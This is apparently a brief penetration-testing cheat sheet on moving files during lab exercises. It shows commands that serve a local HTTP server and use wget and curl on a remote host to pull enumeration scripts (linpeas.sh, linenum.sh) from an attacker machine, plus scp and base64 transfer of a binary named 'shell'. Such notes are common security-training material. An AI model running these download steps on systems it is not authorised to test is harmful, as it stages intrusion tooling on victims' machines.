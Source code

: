 # Transfering Files

**Start a local webserver**
```bash
python3 -m http.server 8000
```

**Download a file on the remote server from our local machine**
```bash
wget http://10.10.14.1:8000/linpeas.sh

curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

**Transfer a file to the remote server with scp (requires SSH access)**
```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

**Base64 Encoding**
```bash
# Convert a file to base64
base64 shell -w 0

# Convert a file from base64 back to its orig
echo f0VMR...SNIO...InmDwU | base64 -d > shell

# Check the file's md5sum to ensure it converted correctly
md5sum shell
```
